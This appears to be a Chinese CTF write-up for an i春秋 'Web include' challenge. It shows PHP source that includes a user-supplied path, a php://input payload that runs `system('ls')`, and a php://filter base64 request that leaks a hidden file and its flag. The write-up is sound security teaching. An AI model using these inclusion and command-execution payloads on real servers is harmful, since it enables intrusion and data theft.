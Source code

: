 # 原创
：  Web include ＜=＞ i春秋

# Web include ＜=＞ i春秋

题目给的源码

```
&lt;?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}


```

首先，试了试直接`?path=flag.php`没有回显。<br/> 然后通过phpinfo给出的内容`allow_url_include处于打开状态`，想到利用php的伪协议。<br/> 用`?path=php://input`，然后POST进一段话`&lt;?php system('ls');?&gt;`，得到信息。

```
&lt;?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
dle345aae.php index.php phpinfo.php

```

然后我们利用playload`http://126410e39dee45e495457edd437bccd171781fb04de9403a.changame.ichunqiu.com/?path=php://filter/read=convert.base64-encode/resource=./dle345aae.php`<br/> 得到`PD9waHAgCiRmbGFnPSJmbGFnezIwM2YwMmQwLWI4OTQtNDc2Zi1hZWQ0LThlN2FkNjMxMzRjYX0iOwo=`<br/> 解码`&lt;?php $flag="flag{203f02d0-b894-476f-aed4-8e7ad63134ca}";`
